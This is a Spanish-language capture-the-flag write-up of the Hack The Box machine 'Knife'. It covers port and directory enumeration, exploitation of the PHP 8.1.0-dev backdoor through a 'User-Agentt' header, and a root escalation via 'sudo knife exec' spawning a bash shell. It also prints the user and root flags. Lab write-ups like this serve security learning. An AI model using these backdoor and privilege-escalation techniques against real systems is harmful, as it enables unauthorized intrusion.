 ```yaml
---
title: Knife (Hack The Box)
author: J0lm3d0
date: 2021-08-28 21:00:00 +0200
categories: [HackTheBox]
tags: [linux, php, cve, sudo, knife_ruby]
pin: false
---
```


En este documento se recogen los pasos a seguir para la resolución de la máquina Knife de la plataforma HackTheBox. Se trata de una máquina Linux de 64 bits, que posee una dificultad fácil de resolución según la plataforma.

![Logo de la máquina](/assets/img/HTB/Knife/machine.png)

[Write-up en PDF realizado mediante LaTeX](/pdfs/Write_up_Knife.pdf)

## Enumeración de servicios y recopilación de información sensible

Lo primero a realizar es un escaneo de todo el rango de puertos TCP mediante la herramienta `Nmap`.

```
# nmap -p- --open -T5 -n -vv 10.10.10.242

Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Tras obtener los puertos que la máquina tiene abiertos, aplico scripts básicos de enumeración y utilizo la flag -sV para intentar conocer la versión y servicio que están ejecutando cada uno de esos puertos.

```
# nmap -p 22,80 -sC -sV 10.10.10.242

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al solo encontrarse abiertos los puertos 22 y 80, y no contar con ningún tipo de credenciales, comienzo enumerando el servidor web. En la siguiente imagen se puede ver la página principal que aparece al acceder desde un navegador.

![Página principal del servidor web](img/mainpage.png)

En la página no aparece más información, no existe ningún enlace que nos lleve a otra página ni ningún tipo de pista en el código fuente. Por tanto, procedo a realizar una búsqueda mediante fuerza bruta de directorios y/o ficheros ocultos con el script `http-enum` de *Nmap* y con `Gobuster`. La búsqueda mediante *http_enum* nos encuentra el directorio "icons", mientras que en la búsqueda con *Gobuster*, utilizando el diccionario "directory-list-2.3-medium'' de `Dirbuster`, se observa que solo encuentra el típico "server-status".

```
# nmap --script http-enum -p80 10.10.10.242

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /icons/: Potentially interesting folder
```

```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.242

/server-status        (Status: 403) [Size: 277]

```

Al acceder al directorio "icons", observo que es similar a la página principal tanto en la apariencia como en el código fuente. Por tanto, vuelvo a realizar fuzzing con *Gobuster* y encuentro otro directorio: "small''.

```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.242/icons

/small                (Status: 301) [Size: 318] [--> http://10.10.10.242/icons/small/]

```

Pero, al acceder ahora a la ruta "icons/small", me encuentro con el mismo problema que anteriormente, la página es similar a la principal y no se observa ninguna diferencia en el código fuente ni en la apariencia. Repito el procedimiento y vuelvo a realizar fuzzing, pero ya no obtengo ningún resultado.

En este punto, se me ocurre mirar con que tecnologías está trabajando el servidor por detrás y, por supuesto, las versiones de estas. Por tanto, utilizo la herramienta `WhatWeb` especificando las 3 páginas que he encontrado. También se podría utilizar el plugin `Wappalyzer`, disponible en la mayoría de navegadores.

![Enumeramos las tecnologías que utiliza el servidor web](img/whatweb.png)

Del resultado obtenido consigo enumerar que el servidor web está utilizando PHP 8.1.0-dev, ya que la versión de Apache la obtuve mediante *Nmap* previamente. Busco esta versión con la herramienta `SearchSploit` y veo que existe un exploit que permite ejecución remota de código.

![Búsqueda de exploits para la versión de PHP](img/searchsploit.png)

## Acceso a la máquina

La explotación consiste en incluir una cabecera "User-Agentt" en la petición al servidor web, que contendrá la llamada a una función "zerodiumsystem", cuyo argumento será el comando que queramos ejecutar a nivel de sistema. Tras buscar información en Internet, compruebo que está vulnerabilidad se trata de una puerta trasera (backdoor) en el código fuente que colocaron unos ciberdelincuentes después de conseguir acceder al repositorio GIT interno de PHP.

![Script en Python que explota la vulnerabilidad de la versión de PHP](img/phpexploit.png)

Al lanzar el script me pide introducir la URL completa y, como es correcta y el servidor es vulnerable, comienza a simularme una shell, aunque, como se ha visto, por detrás está realizando una petición HTTP cada vez que escribo un comando. Intento lanzarme una shell inversa utilizando este exploit, pero no llega a realizarse correctamente. Por tanto, recurro a la herramienta `Curl` para realizar una petición que me envíe una shell de la máquina víctima a mi máquina.

![Utilizamos curl para lanzarnos una shell inversa](img/revshell.png)

Veo que obtengo la shell como el usuario "james", por lo que pruebo a sacar la flag de usuario no privilegiado y se me permite visualizarla correctamente.

```
james@knife:~$ cat user.txt

84cd1f49476013bb338bc651c29ab191
```

## Escalada de privilegios

Una vez dentro de la máquina, comienzo a enumerar el sistema para intentar escalar privilegios. Primero enumero los binarios con bit SUID activado que se encuentran en el sistema, pero este caso no encuentro ningún binario que pudiese aprovechar ni ningún binario personalizado o creado por el usuario.

Con el comando *sudo -l* compruebo si puede ejecutarse algún archivo con privilegios de otro usuario o sin proporcionar contraseña. En este caso, se puede ejecutar *knife* con privilegios de "root" y sin proporcionar contraseña. También hago uso del comando *file* para saber el tipo de archivo que es, y compruebo que se trata de un archivo ejecutable programado en Ruby.

![Enumeramos el tipo de archivo que es *knife*](img/knifefile.png)

Tras buscar información sobre este archivo de Ruby en internet, compruebo que existe una manera de ejecutar código Ruby, utilizando el subcomando *exec*. Con este subcomando puede lanzarse código escrito en la misma línea o pasar como argumento un script previamente creado.

![Documentación sobre *knife*](knifedoc.png)

En este caso, al poder ejecutar *knife* con permisos de "root", ejecuto el código en Ruby correspondiente al lanzamiento de una shell, para así obtener una shell como usuario privilegiado y tener acceso total a la máquina, pudiendo visualizar la flag final.

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash -i'"

bash: cannot set terminal process group (1028): Inappropiate ioctl for device
bash: no job control in this shell

root@knife:/home/james# cat /root/root.txt

cf5429e70e95ad1c663402740fe00aa22
```
